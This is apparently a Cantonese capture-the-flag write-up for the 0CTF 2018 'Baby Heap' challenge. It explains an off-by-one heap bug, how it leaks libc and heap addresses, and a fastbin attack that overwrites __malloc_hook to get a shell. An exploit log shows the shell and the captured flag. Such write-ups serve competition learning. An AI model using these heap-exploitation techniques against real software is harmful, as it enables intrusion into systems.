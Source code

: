 # Baby Heap 2018 - 183pts

題目:
>
>Let's practice the very basic [heap](babyheap.tar.gz) techniques in 2018!
>
>202.120.7.204:127


Menu:

```
   / //_// ____/ ____/ | / /  / /   /   |  / __ )
  / ,<  / __/ / __/ /  |/ /  / /   / /| | / __  |
 / /| |/ /___/ /___/ /|  /  / /___/ ___ |/ /_/ /
/_/ |_/_____/_____/_/ |_/  /_____/_/  |_/_____/

===== Baby Heap in 2018 =====
1. Allocate
2. Update
3. Delete
4. View
5. Exit
Command: 
```

呢條係經典嘅heap題目,有齊 allocate, update, delete, view

# vulnerability:

```C
{
    printf("Size: ");
    LODWORD(v1) = sub_140A();
    v4 = v1;
    if ( (signed int)v1 > 0 )
    {
      v1 = *(_QWORD *)(24LL * v3 + a1 + 8) + 1LL;
      if ( v4 <= v1 )
      {
        printf("Content: ");
        sub_1230(*(_QWORD *)(24LL * v3 + a1 + 16), v4);
        LODWORD(v1) = printf("Chunk %d Updated\n", (unsigned int)v3);
      }
    }
    
  ```
  
係update function個到, input content會比input size讀多左1 byte 入去heap到,一個好明顯嘅 off by one bug
  
我地可以用個個 byte shrink 或者extend個 chunk

不過呢題有一個constraint,最多只可以calloc到 0x60 chunk(fast bin),而且call calloc會將舊content 清0

所以無得靠直接free unsorted bin leak libc/heap address

```C

  for ( i = 0; i <= 15; ++i )
  {
    if ( !*(_DWORD *)(24LL * i + a1) )
    {
      printf("Size: ");
      v2 = sub_140A();
      if ( v2 > 0 )
      {
        if ( v2 > 0x58 )
          v2 = 0x58;
        v3 = calloc(v2, 1uLL);
        if ( !v3 )
          exit(-1);
        *(_DWORD *)(24LL * i + a1) = 1;
        *(_QWORD *)(a1 + 24LL * i + 8) = v2;
        *(_QWORD *)(a1 + 24LL * i + 16) = v3;
        printf("Chunk %d Allocated\n", (unsigned int)i);
      }
      return;
    }
  }
}
```
# Leak Information

係呢個情況下我地靠update n th chunk,用off by one overwrite下一個chunk(n+1 th chunk)嘅size, 再free下一個chunk(n+1 th chunk)

咁就可以將n+1 th chunk 放入unsorted bin, 之後再view n th chunk leak libc

leak heap address 可以用上面方法放多一個chunk入unsorted bin,再view 或者create一個k size fastbin,free左佢,再靠 off by one, extend一組 chunk, corrupt 包左嘅一個chunk做k size, 由於fastbin係 single linked list所以 leak到 heap address

# Exploit

我地可以free某個包住左嘅chunk 做 fastbin attack

你以為你已經get shell?? 少年你太年輕了

因為最大只可以calloc 0x60 chunk, 而要 bypass fast bin checking, calloc 去_malloc_hook附近位置,需要 calloc到 0x70 chunk

最後發現,如果heap address 開頭係0x56,我地可以靠calloc 0x60 chunk 去到main_arena紀錄current top address附近嘅位置

所以我地用fastbin attack,calloc 去main_arena+offset,edit top 做_malloc_hook附近位置,再做幾次calloc clean返之前d位,最後我地拎到 _malloc_hook,再 overwrite _malloc_hook->one gadget rce,call calloc->get shell

[solve.py](solve.py)

# Flag

```
flag{have_fun_with_fastbin}
```


logs:
```
# [+] Opening connection to 202.120.7.204 on port 127: Done
# [*] '/root/Desktop/CTF_Game/0ctf_2018/baby_heap/libc.so.6'
#     Arch:     amd64-64-little
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      PIE enabled
# [*] Leaking heap addr
# [*] Leaked heap addr :0x562ecd700000
# [*] Leaking libc
# [*] Leaked libc :0x7f58a9390b58
# [*] Leaked libc base :0x7f58a8ff7000
# [*] __malloc_hook : 0x7f58a9390af0
# [*] __free_hook : 0x7f58a9392788
# [*] main_arena : 0x7f58a9390b00
# [*] main_arena : 0x7f58a9390b00
# [*] Hijacking main_arena
# 73
# [*] removing old 0x20 to clean up the list
# [*] starting attack :)
# [*] Switching to interactive mode
# Chunk 9 Updated
# 1. Allocate
# 2. UpdateSize: total 84
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 .
# drwxr-xr-x  22 root root  4096 Mar 14 09:48 ..
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 bin
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 boot
# drwxr-xr-x  16 root root  2960 Mar 14 14:37 dev
# drwxr-xr-x  77 root root  4096 Mar 30 19:21 etc
# drwxr-xr-x   3 root root  4096 Mar 30 19:16 home
# lrwxrwxrwx   1 root root    29 Mar 14 09:48 initrd.img -> boot/initrd.img-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    29 Mar 14 09:35 initrd.img.old -> boot/initrd.img-4.9.0-4-amd64
# drwxr-xr-x  14 root root  4096 Mar 14 09:40 lib
# drwxr-xr-x   2 root root  4096 Mar 28 21:47 lib64
# drwx------   2 root root 16384 Mar 14 09:35 lost+found
# drwxr-xr-x   3 root root  4096 Mar 14 09:35 media
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 mnt
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 opt
# dr-xr-xr-x 101 root root     0 Mar 14 14:37 proc
# drwx------   4 root root  4096 Mar 31 06:27 root
# drwxr-xr-x  17 root root   580 Mar 31 11:05 run
# drwxr-xr-x   2 root root  4096 Mar 30 19:15 sbin
# drwxr-xr-x   2 root root  4096 Mar 14 09:35 srv
# dr-xr-xr-x  13 root root     0 Mar 31 11:43 sys
# drwx-wx-wt   8 root root  4096 Apr  1 02:17 tmp
# drwxr-xr-x  10 root root  4096 Mar 14 09:35 usr
# drwxr-xr-x  11 root root  4096 Mar 14 09:35 var
# lrwxrwxrwx   1 root root    26 Mar 14 09:48 vmlinuz -> boot/vmlinuz-4.9.0-6-amd64
# lrwxrwxrwx   1 root root    26 Mar 14 09:35 vmlinuz.old -> boot/vmlinuz-4.9.0-4-amd64
# $ cat flag
# cat: flag: No such file or directory
# $ cd home
# $ ls
# babyheap
# $ cd babyheap
# $ cat flag
# flag{have_fun_with_fastbin}
# [*] Got EOF while reading in interactive
# $  
```

